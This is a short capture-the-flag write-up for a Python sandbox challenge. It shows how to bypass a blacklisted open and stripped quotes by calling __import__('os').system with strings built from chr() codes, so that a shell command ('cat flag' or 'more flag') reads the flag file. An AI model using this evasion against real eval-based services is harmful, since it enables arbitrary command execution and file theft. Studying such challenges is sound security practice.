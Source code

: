 # Solution
You ahve access to global variables, just `open` is blacklisted.

That means you can import stuff using `__import__`.

Since `"` and `'` are replaced from the input with an empty string, you need to create your string using `chr(ascii)`

The following executes a system command to print the contents of the file.
##### Windows: 
`__import__("os").system("more flag")`<br>
encoded: `__import__(chr(0x6F)+chr(0x73)).system(chr(0x6D)+chr(0x6F)+chr(0x72)+chr(0x65)+chr(0x20)+chr(0x66)+chr(0x6C)+chr(0x61)+chr(0x67))`
#####
`__import__("os").system("cat flag")`<br>
encoded: `__import__(chr(0x6F)+chr(0x73)).system(chr(0x63)+chr(0x61)+chr(0x74)+chr(0x20)+chr(0x66)+chr(0x6C)+chr(0x61)+chr(0x67))`
